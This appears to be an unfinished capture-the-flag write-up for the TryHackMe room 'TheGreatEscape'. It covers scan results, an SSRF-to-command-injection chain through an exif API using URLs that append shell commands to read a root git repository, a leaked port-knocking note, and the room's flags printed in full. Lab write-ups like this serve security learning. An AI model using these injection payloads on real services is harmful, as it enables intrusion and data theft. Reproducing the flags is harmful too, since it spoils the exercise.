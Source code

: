 # Room: [TheGreatEscape](https://tryhackme.com/room/thegreatescape) 
#### _Our devs have created an awesome new site. Can you break out of the sandbox?_

:warning: Work in progress...This article will be updated ~~soon~~ :warning:

## Basic enum:

Rustscan

```bash
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 62
80/tcp   open  http    syn-ack ttl 62
2375/tcp open  docker  syn-ack ttl 63
```
Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh?
| fingerprint-strings:
|   GenericLines:
|_    *!LY, _<
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    nginx 1.19.6
| http-robots.txt: 3 disallowed entries
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
|_http-trane-info: Problem with XML parsing of /evox/about

```

the `robots.txt` has 3 disallowed entries and http://escape.thm/exif-util/

=> http://escape.thm/exif-util.bak.txt ...

```bash
Fascinant! http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-lrtah

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-larth%20/root/.git

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20log

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20show%20a3d30a7d0510dc6565ff9316e3fb84434916dee8
```
Ok so at least we have:

```bash
commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes

diff --git a/dev-note.txt b/dev-note.txt
new file mode 100644
index 0000000..89dcd01
--- /dev/null
+++ b/dev-note.txt
@@ -0,0 +1,9 @@
+Hey guys,
+
+I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
+
+Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
+
+Cheers,
+
+Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+THM{0cb[REDACTED]876}
\ No newline at end of file
```


<details>
  <summary>Click to reveal the user flag</summary>
  
  ```bash
    THM{0cb4b947043cb5c0486a454b75a10876}
  ```
</details>


```bash
# cd .well-known
# ls
security.txt
# cat security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

Ok fair enough :nerd_face:

```
curl -IXHEAD http://plop.thm/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sat, 17 Jul 2021 19:42:15 GMT
Connection: keep-alive
flag: THM{b801[REDACTED]5ad4}
```

<details>
  <summary>Click to reveal the root flag</summary>
  
  ```bash
    THM{b801135794bf1ed3a2aafaa44c2e5ad4}
  ```
</details>

